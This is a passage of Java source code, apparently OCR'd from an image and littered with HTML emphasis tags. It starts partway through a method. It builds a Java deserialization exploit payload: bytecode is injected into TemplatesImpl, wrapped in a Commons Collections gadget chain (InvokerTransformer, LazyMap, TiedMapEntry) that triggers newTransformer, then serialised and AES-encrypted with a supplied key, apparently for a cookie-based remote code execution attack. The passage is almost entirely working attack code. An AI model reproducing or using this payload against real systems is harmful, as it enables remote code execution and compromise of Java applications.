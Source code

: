 ```java

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.println(ciphertext.toString().length());
        System.out.println(ciphertext.toString());
    }

    <em>public static void </em>setFieldValue(Object obj, String fieldName, Object value) <em>throws </em>Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(<em>true</em>);
        field.set(obj, value);
    }

    <em>public byte</em>[] getPayload(<em>byte</em>[] clazzBytes) <em>throws </em>Exception {

        Templates obj = <em>new </em>TemplatesImpl();
        setFieldValue(obj, "_bytecodes", <em>new byte</em>[][]{clazzBytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", <em>null</em>);

        Transformer transformer = <em>new </em>InvokerTransformer("getClass", <em>null</em>, <em>null</em>);
        Map innerMap = <em>new </em>HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);
        TiedMapEntry tme = <em>new </em>TiedMapEntry(outerMap, obj);
        Map expMap = <em>new </em>HashMap();
        expMap.put(tme, "1");
        outerMap.clear();
        setFieldValue(transformer, "iMethodName", "newTransformer");

<em>        </em>ByteArrayOutputStream barr = <em>new </em>ByteArrayOutputStream();
        ObjectOutputStream oos = <em>new </em>ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        <em>return </em>barr.toByteArray();
    }
}
```

